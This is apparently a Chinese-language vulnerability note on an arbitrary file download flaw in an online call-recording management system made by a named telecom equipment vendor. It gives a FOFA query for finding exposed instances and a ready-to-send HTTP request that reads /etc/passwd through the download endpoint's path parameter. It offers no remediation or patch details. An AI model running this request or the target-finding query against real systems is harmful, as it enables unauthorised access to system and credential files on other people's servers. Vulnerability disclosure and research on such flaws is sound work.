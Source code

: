 # 申瓯通信设备有限公司在线录音管理系统存在任意文件下载漏洞

# 一、漏洞简介
申瓯通信设备有限公司在线录音管理系统系统是一款全面的企业管理软件，涵盖多个领域，助力企业实现信息化管理和业务优化。此系统某接口存在任意文件下载漏洞。

# 二、影响版本
+ 在线录音管理系统

# 三、资产测绘
+ fofa`title="在线录音管理系统"<font style="color:rgb(221, 17, 68);"></font>`

![1718298593944-67a12797-71e8-44ee-8755-020482502e3d.png](./img/nlilfazuEw8aisMY/1718298593944-67a12797-71e8-44ee-8755-020482502e3d-717945.png)

# 四、漏洞复现
```java
GET /main/download?path=/etc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![1718298567408-25df445c-3f5d-4b24-88db-ea01d7b8761a.png](./img/nlilfazuEw8aisMY/1718298567408-25df445c-3f5d-4b24-88db-ea01d7b8761a-936078.png)



> 更新: 2024-06-17 09:34:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vfuzmf2gkqngd4iv>